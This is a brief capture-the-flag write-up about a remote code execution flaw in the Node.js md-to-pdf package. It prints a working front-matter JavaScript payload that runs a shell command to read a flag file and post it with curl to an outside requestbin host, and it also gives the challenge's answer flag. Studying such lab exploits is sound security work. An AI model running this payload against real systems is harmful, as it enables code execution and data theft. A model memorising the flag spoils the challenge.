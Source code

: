 ## Skills: JavaScript command RCE

In NodeJS applications, the list of packages used is listed in `package.json`. With [Snyk](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880) we can confirm a *remote code execution* (RCE) vulnerability with the `md-to-pdf` package.

You can send the flag to your domain, alternatively you can copy the flag file to the static folder and view it there.

Pre-CTF guide: in bash script, the output from one command can be piped (transferred) to another with the | symbol

My final payload:
```
---js
`${require("child_process").execSync("cat ../flag.txt | curl -X POST --data-binary @- https://requestbin.io/********")}`
---RCE OKAY
```

**Flag: HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}**
